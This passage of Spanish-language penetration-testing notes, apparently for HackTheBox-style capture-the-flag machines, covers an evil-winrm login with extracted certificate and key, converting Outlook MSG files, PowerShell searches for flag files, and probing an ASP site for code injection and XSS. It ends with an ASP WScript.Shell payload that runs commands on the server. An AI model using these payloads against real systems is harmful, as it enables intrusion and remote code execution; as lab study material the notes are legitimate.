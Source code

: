 Ahora hay que copiar lo interesante y guardarlo en `key` (priv-key.pem) y en `crt` (cert.pem). Después, nos podemos conectar por WinRM SSL (5986):

```shell
evil-winrm -i timelapse.htb -c crt -k key -S
```

## Convertir MSG Outlook a ASCII

Vamos a usar la herramienta [MSGConvert](https://www.matijs.net/software/msgconv/) para poder leer los archivos msg en nuestro linux:

```shell
msgconvert 'File.msg'
```

## Buscar flags

Si no encuentras la flag (root):

```powershell
Get-PSDrive -PSProvider FileSystem | ForEach-Object { Get-ChildItem -Path $_.Root -Filter "root.txt" -Recurse -ErrorAction SilentlyContinue }
```

Y la de user:

```powershell
Get-PSDrive -PSProvider FileSystem | ForEach-Object { Get-ChildItem -Path $_.Root -Filter "user.txt" -Recurse -ErrorAction SilentlyContinue }
```
## ASP Shells

Si tenemos una web que nos interpreta ASP y es vulnerable a inyección de código, podemos poner esto:

```asp
<%response.write(7*7) %>
```

Si esto nos devuelve 49...

![[Pasted image 20230723111348.png]]

Significa que es vulnerable. También podemos probar si es vulnerable a XSS:

```html
<script>alert("XSS")</script>
```

![[Pasted image 20230723111545.png]]

Y sí. Pero nos interpreta código ASP, así que la idea es inyectar comandos:

```asp
<%response.write CreateObject("WScript.Shell").Exec("ping -n 1 <LOCAL_IP>").StdOut.Readall()%>
```
